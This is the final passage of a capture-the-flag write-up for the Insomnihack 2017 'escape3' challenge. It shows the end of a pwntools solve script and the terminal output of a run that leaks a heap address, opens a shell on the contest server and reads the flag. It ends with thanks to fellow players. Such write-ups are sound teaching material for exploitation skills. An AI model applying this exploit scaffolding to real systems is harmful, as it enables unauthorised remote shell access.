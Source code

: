         r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/insomnihack17/escape3/flag.elf'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight bash%}
rh0gue@firenze:~/Documents/insomnihack17/escape3$ python solve.py 52.214.142.175 5001 
[*] '/home/rh0gue/Documents/insomnihack17/escape3/flag.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
    RPATH:    '/home/coolz0r/Desktop/inso17/jemalloc/lib'
[*] For remote: solve.py HOST PORT
[+] Opening connection to 52.214.142.175 on port 5001: Done
[+] heap region leaked: 0x7f8355be7008
[*] Switching to interactive mode
$ id
uid=1000(rogue) gid=1000(rogue) groups=1000(rogue)
$ ls
flag
friendly_robots
rogue
rogue.bak
$ cat flag
INS{RealWorldFlawsAreTheBest}
$  
{% endhighlight %}

## Thanks
Special shout out to [uafio](http://uaf.io) and [grazfather](http://grazfather.github.io), for constantly pushing me to improve my pwning skills and without whom I couldn't have solved this challenge.
